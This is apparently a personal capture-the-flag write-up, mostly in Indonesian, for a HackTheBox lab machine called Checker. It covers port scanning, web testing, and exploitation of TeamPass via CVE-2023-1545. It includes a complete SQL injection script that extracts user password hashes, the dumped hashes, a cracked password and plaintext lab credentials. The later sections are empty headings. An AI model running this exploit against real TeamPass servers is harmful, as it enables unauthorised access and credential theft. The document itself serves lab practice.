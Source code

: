 ![](Pasted%20image%2020250223103627.png)
# 1.  Service Enumeration

| IP  | Port       |
| --- | ---------- |
| TCP | 22,80,8080 |
| UDP | -          |
## A.  TCP Active Port 
![](Pasted%20image%2020250223103808.png)
## B. UDP Active Port
No result.
## C.  Domain
![](Pasted%20image%2020250223112458.png)
add them to /etc/host
# 2. Initial Access
## A. Web
Port 80
fitur:
- Login
- Forgot Password
![](Pasted%20image%2020250223104349.png)
Port 8080 
Fitur:
- Login, ada satu form unik dengan value 60
- menggunakan **Teampass** -> coba cek versi nya
![](Pasted%20image%2020250223104646.png)
## B. Directory
ga bisa ada waf kedua web servernya
![](Pasted%20image%2020250223111956.png)
ada rate limiting
![](Pasted%20image%2020250223104841.png)
## C. checker.htb Forgot Password
reflected
![](Pasted%20image%2020250223113128.png)
cannot be exploited yet
![](Pasted%20image%2020250223122524.png)
coba test SQLi injection save it to file, and send it to sqlmap
![](Pasted%20image%2020250223212122.png)
tidak berhasil
## D. Teampass
tidak menemukan version, coba cari manual
https://security.snyk.io/vuln/SNYK-PHP-NILSTEAMPASSNETTEAMPASS-3367612
[CVE-2023-1545](https://www.cve.org/CVERecord?id=CVE-2023-1545)
![](Pasted%20image%2020250224142310.png)
```
if [ "$#" -lt 1 ]; then
  echo "Usage: $0 <base-url>"
  exit 1
fi

vulnerable_url="$1/api/index.php/authorize"

check=$(curl --silent "$vulnerable_url")
if echo "$check" | grep -q "API usage is not allowed"; then
  echo "API feature is not enabled :-("
  exit 1
fi

# htpasswd -bnBC 10 "" h4ck3d | tr -d ':\n'
arbitrary_hash='$2y$10$u5S27wYJCVbaPTRiHRsx7.iImx/WxRA8/tKvWdaWQ/iDuKlIkMbhq'

exec_sql() {
  inject="none' UNION SELECT id, '$arbitrary_hash', ($1), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin"
  data="{\"login\":\""$inject\"",\"password\":\"h4ck3d\", \"apikey\": \"foo\"}"
  token=$(curl --silent --header "Content-Type: application/json" -X POST --data "$data" "$vulnerable_url" | jq -r '.token')
  echo $(echo $token| cut -d"." -f2 | base64 -d 2>/dev/null | jq -r '.public_key')
}

users=$(exec_sql "SELECT COUNT(*) FROM teampass_users WHERE pw != ''")

echo "There are $users users in the system:"

for i in `seq 0 $(($users-1))`; do
  username=$(exec_sql "SELECT login FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  password=$(exec_sql "SELECT pw FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  echo "$username: $password"
done
```

dapat credential
![](Pasted%20image%2020250224144238.png)
```
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```

berhasil crack -> cheerleader
![](Pasted%20image%2020250224150057.png)
![](Pasted%20image%2020250224150212.png)
## E. Credential on teampass
bob@checker.htb mYSeCr3T_w1kI_P4sSw0rD
![](Pasted%20image%2020250224153732.png)
bisa login![](Pasted%20image%2020250224194525.png)
reader hiccup-publicly-genesis
![](Pasted%20image%2020250224153936.png)
tidak bisa login
![](Pasted%20image%2020250224154041.png)
## Analisa Checker.htb
1. Search
   try input ' -> input validasi, no error
2. Shelves
   - create shelves -> no html injection
   - upload cover -> invalid fil
   -  tag -> no xss
3. Books
   - create shelves -> no html injection
   - upload cover -> invalid fil
   -  tag -> no xss
ada OTP setup, coba pake menggunakan google authenticator
![](Pasted%20image%2020250224211926.png)
Coba ganti vpn ke US (Tips dari Forum)
masukkan kode otp dari situs ini
![](Pasted%20image%2020250225093354.png)
Berhasil
![](Pasted%20image%2020250225093436.png)
ternyata Bookstack ada versinya juga hmmmmm
Bookstack v23.10.2
![](Pasted%20image%2020250228093950.png)
CVE-2023-6199 -> https://fluidattacks.com/advisories/imagination/

# 3. Privilege Escalation
## a. 

# 4. Post Exploitation
## a. User Flag
## b. Root Flag
